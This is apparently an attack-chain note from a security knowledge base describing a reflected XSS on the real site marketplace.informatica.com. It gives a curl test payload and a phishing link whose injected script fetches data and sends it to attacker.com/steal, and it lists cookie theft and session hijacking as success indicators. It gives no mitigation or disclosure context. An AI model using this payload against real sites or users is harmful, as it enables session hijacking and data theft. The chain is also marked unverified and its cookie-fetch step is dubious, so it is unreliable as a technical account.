

---
tags:
  - xss
  - reflected-xss
  - web-vulnerability
  - javascript-execution
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Exploiting-Reflected-XSS-via-Unsanitized-Input]]'
step_count: 1
techniques:
  - '[[JavaScript]]'
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T03:16:14.179Z'
description: >-
  A multi-stage attack chain demonstrating the exploitation of a reflected XSS
  vulnerability on marketplace.informatica.com, allowing arbitrary JavaScript
  execution in victims' browsers for potential session hijacking or data theft.
skill_level: intermediate
impact_level: high
id: 69f733a8-961a-48c4-9fd3-bb3416d18125
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[JavaScript]]'
  - '[[Exploit Public-Facing Application]]'
---
# Reflected XSS on Informatica Marketplace Leading to Arbitrary JavaScript Execution

Multi-stage attack chain demonstrating a complete attack workflow exploiting a reflected XSS vulnerability discovered on marketplace.informatica.com.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser developer tools for payload testing
- [[tools/Burp-Suite]] (optional for intercepting requests)

### Target Environment

- Web platform
- Publicly accessible website (marketplace.informatica.com)
- No specific ports required beyond standard HTTP/HTTPS (80/443)

### Initial Access Requirements

- Ability to send malicious links to victims (e.g., via phishing)
- No prior credentials needed
- Network access to the target website

## Detailed Attack Procedures

### Step 1: Exploit Reflected XSS
procedure: [[procedures/Exploiting-Reflected-XSS-via-Unsanitized-Input]]

**Objective**: Inject and execute arbitrary JavaScript in the victim's browser by exploiting insufficient input sanitization on user-supplied data reflected in the response.

**Instructions**: Identify a vulnerable input field or parameter on the target site (e.g., a search box or URL parameter). Craft a payload such as `<script>alert('XSS')</script>` and append it to the request. For demonstration, use a tool like curl to test the reflection:

First, test for reflection with a simple payload using [[commands/curl-xss-test]]:

```bash
curl "https://marketplace.informatica.com/search?q=<script>alert('XSS')</script>" -v
```

Observe the response to confirm the payload is reflected without sanitization. Then, deliver the payload via a phishing link to a victim, e.g., `https://marketplace.informatica.com/search?q=<script>fetch('/cookies').then(r=>r.text()).then(d=>fetch('https://attacker.com/steal?data='+encodeURIComponent(d)))</script>`.

**Expected Output**: The JavaScript executes in the browser, popping an alert or sending data to an attacker-controlled server.

**Success Indicators**:
- Payload reflected in HTML response without encoding
- Alert or network request triggered in victim's browser
- Potential cookie theft or session hijack confirmed via attacker logs

## Attack Chain Summary

### Key Achievements

1. Successful injection of malicious JavaScript via reflected input
2. Execution of arbitrary code in browser context
3. Potential for session hijacking or phishing attacks

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]
- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---
*Last updated: 2023-10-01T00:00:00Z*
